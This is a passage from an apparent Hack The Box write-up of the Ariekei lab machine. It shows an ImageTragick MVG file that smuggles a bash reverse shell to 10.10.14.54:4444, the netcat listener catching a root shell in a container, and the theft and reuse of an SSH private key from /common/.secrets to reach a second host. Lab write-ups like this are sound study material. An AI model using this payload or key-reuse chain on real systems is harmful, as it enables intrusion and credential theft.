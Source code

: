   Let the trolling begin.
  
  There is a WAF which is gonna troll us all the way, lets take a look at this later
  
  
  
  
  
* **calvin.ariekei.htb**

    Not Found?!

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Ariekei/Images/calvin.htb.PNG"></kbd>
    
After doing some dirbusting we find a directory named ```/upload``` which has a very peculiar looking page
    
I tried to upload some normal jpg files with a simple php shell and some other tricks up my sleeve (which isnt too long )
    
The only thing left to try is [Image Tragic exploit](https://imagetragick.com/)
    
Lets create a mvg file with the contents:
    
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|/bin/bash -i >/dev/tcp/10.10.14.54/4444 0<&1 2>&1 &")'
pop graphic-context
```

Start a listner at 4444

Use browse and upload the image

And Voila!!

```
root@kali:~/hackthebox/Ariekei# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.65] 53582
[root@calvin app]# hostname
calvin.ariekei.htb
```

 We got root shell!?!?!

Its inside a docker :( feelsbadman

After doing some enum we find some juicy stuff inside the dir ```/common/.secrets```

It has 2 keys ```bastion_keu and bastion_key.pub```

Lets copy it to our machine

The pub tells us that its the login for root@ariekei ```ssh -v -i bastion_key root@ariekei.htb```

That didnt work, maybe its for the port 1022

```ssh -v -i bastion_key root@ariekei.htb -p1022```

Works!!!!

```
root@ezra:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ezra:~# hostname
ezra.ariekei.htb
```

Looks like we are inside a different host

```
root@ezra:/common/containers/blog-test# ls -l
total 24
-rw-r--r-- 1 root  999  144 Sep 23 18:43 Dockerfile